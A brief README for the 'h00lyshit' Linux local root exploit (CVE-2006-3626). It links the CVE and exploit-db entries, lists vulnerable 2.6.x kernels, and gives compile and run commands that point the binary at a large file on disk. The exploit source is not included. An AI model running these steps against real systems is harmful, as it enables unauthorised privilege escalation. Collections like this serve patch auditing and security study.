 # CVE-2006-3626

CVE-2006-3626

Vulnerability reference:
 * [CVE-2006-3626](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2006-3626)  
 * [exp-db](https://www.exploit-db.com/exploits/2013/)  

## Kernels
```
2.6.8, 2.6.10, 2.6.11, 2.6.12, 2.6.13, 2.6.14, 2.6.15, 2.6.16
```   
## Usage
```
Compile:
gcc h00lyshit.c -o h00lyshit
**
Usage:
h00lyshit <very big file on the disk>
**
Example:
h00lyshit /usr/X11R6/lib/libethereal.so.0.0.1
```

